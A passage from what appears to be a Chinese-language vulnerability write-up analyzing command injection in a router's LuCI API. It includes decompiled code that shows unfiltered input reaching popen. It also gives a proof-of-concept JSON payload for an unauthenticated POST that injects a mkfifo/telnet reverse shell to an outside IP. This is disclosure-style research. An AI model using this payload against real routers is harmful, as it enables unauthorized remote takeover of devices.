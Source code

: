 下面对 `sub_41ADF0` 函数做简单的分析

```
int __fastcall sub_41ADF0(_DWORD *a1)
{
  v1 = *a1;
  if ( *a1 )//为0 进不去这个if
  {
......  
  }
  else
  {
    if ( !*((_BYTE *)a1 + 32) )//*((_BYTE *)a1 + 32)为0，可以进入if
    {
      result = ufm_popen((const char *)a1[7], a1 + 13);//这个a1[7]，也就是偏移28的位置，上文中提到最后拼接的命令就被写入了一个结构体偏移28的位置，因此这里触发命令执行，且没有做任何过滤
      v3 = a1;
      goto LABEL_9;
    }
  }
  return result;
}

```

![](https://blog-1311372141.cos.ap-nanjing.myqcloud.com/images/202308301517529.png)

### POC

向 `/cgi-bin/luci/api/auth` 路径发送 `POST` 报文，即可在未授权的情况下拿到路由器的最高权限

```
{
    "method": "merge",
    "params": {
        "sorry": "'$(mkfifo /tmp/test;telnet 192.168.45.66 6666 0 /tmp/test)'"
    }
}

```

### 攻击演示

![](https://blog-1311372141.cos.ap-nanjing.myqcloud.com/images/202308311455808.png)

![](https://blog-1311372141.cos.ap-nanjing.myqcloud.com/images/202308311456572.png)

上面对 `lua` 文件以及二进制文件的调用链进行了分析和调试，下面记录下在分析过程中自己产生的疑问以及自己探究出的答案

疑问 && 解决
--------

### deal_remote_config_handle 函数是怎么被触发的
